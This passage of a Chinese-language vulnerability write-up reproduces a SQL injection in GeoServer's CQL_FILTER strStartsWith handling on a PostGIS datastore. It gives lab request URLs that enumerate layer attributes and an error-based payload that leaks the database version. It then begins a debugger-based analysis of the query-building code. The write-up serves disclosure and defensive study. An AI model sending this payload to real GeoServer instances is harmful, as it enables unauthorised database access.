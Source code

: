![](https://shs3.b.qianxin.com/butian_public/f434095b7f0963add663250008495ecc9b4c1782bdaaf.jpg)

第二步：获取某个图层的属性名称

```php
[/geoserver/wfs?request=DescribeFeatureType&amp;version=2.0.0&amp;service=WFS&amp;outputFormat=application/json&amp;typeName=cite:nyc_buildings]
```

([http://192.168.145.130:8080/geoserver/wfs?request=DescribeFeatureType&amp;version=2.0.0&amp;service=WFS&amp;outputFormat=application/json&amp;typeName=cite:nyc\_buildings](http://192.168.145.130:8080/geoserver/wfs?request=DescribeFeatureType&version=2.0.0&service=WFS&outputFormat=application/json&typeName=cite:nyc_buildings))

![](https://shs3.b.qianxin.com/butian_public/f927579df71e8282ab00a9461c1acc6bab728efd787cd.jpg)

![](https://shs3.b.qianxin.com/butian_public/f754750b58c98b68c25f269131e3cc357b67cb86056ef.jpg)

第三步：构造payload查询数据库版本信息

```php
[/geoserver/ows?service=wfs&amp;version=1.0.0&amp;request=GetFeature&amp;typeName=cite:nyc_buildings&amp;CQL_FILTER=strStartsWith(bin,%27x%27%27)+%3d+true+and+1%3d(SELECT+CAST+((SELECT+version())+AS+INTEGER))+--+%27)+%3d+true]
```

([http://192.168.145.130:8080/geoserver/ows?service=wfs&amp;version=1.0.0&amp;request=GetFeature&amp;typeName=cite:nyc\_buildings&amp;CQL\_FILTER=strStartsWith(bin,%27x%27%27)+%3d+true+and+1%3d(SELECT+CAST+((SELECT+version())+AS+INTEGER))+--+%27)+%3d+true](http://192.168.145.130:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=cite:nyc_buildings&CQL_FILTER=strStartsWith(bin,%27x%27%27)+%3D+true+and+1%3D(SELECT+CAST+((SELECT+version())+AS+INTEGER))+--+%27)+%3D+true))

![](https://shs3.b.qianxin.com/butian_public/f29883888aa5241ba1e1012daf09bddc5af7080bca383.jpg)

![](https://shs3.b.qianxin.com/butian_public/f19023105391fc71891791e5ab3f33345a601241a8806.jpg)

0X04漏洞分析
--------

对于strStartsWith 启用“编码功能”的 PostGIS DataStore注入分析：

通过下断点跟代码发现函数getReaderInternal（位于org.gettools.jdbc）：

![](https://shs3.b.qianxin.com/butian_public/f59719830cb4e91ffed1ed4466374f929f646fe41043f.jpg)

在执行查询前调用  
getDataStore().getConnection(this.getState()) 方法获取与数据存储相关联的连接对象cx，判断是否能正常连接数据库。

第一部分生成查询语句：

主要的sql查询函数如下：

selectSQL函数，用于构建执行查询的 SQL 语句。

![](https://shs3.b.qianxin.com/butian_public/f30528927f42c115ceb891ab9412379f546abbc7f35f3.jpg)
